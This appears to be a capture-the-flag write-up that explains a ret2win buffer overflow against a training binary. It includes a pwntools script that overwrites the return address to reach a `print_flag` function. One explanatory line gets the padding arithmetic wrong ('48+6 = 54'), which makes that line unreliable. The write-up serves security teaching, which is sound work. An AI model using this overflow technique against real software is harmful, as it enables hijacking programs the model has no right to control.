




[Source code](./handout/Bug_Bounty_3)

The interaction is the same as the previous challenges.  
But the problem is that here the `print_flag` function is not called in the program. So how can we get it ?
First let's check the binary with the checksec command



We can see that `PIE` is not enabled.
PIE means **Position Independent Executable**.  
It is a security feature that allows a program to be loaded into random memory locations every time it runs.  
In our case it's not enabled that means the program will load the same address every time we run it.  
So now we need to get the address of `print_flag` first. We can do it with the `nm` command



The `print_flag` function will always be at the `0x0000000000401216` address every time it runs

Now that we know that, with the buffer overflow vulnerability we need to overwrite the return address of the main function so when the program come to this point it runs the print_flag function.

With the same script used as previously we can perform this operation

```python
from pwn import *

# Connect to the instance
conn = remote('chal.sigpwny.com', 1345)

# Receive the prompt
conn.recvuntil(b'> ')

# Write your exploit here!
print_flag_addr = 0x401216
exploit = b'A'*56 + p64(print_flag_addr, "little")

# Send the exploit
conn.sendline(exploit)

# Drop to an interactive shell to interact with the process
conn.interactive()
```

Why did we send 56 A's ? Because after `name` who is 48 bytes there is the `RBP` register who is 8 bytes between `name` and the return address.  
The stack will look like this `[name][RBP][return]`. So we need to overwrite `RBP` with 8 bytes before we can overwrite the return address `48+6 = 54`  

The `print_stack` function helps a lot because it's shows the stack.



[Bug Bounty 4](./Bug_Bounty_4.md)
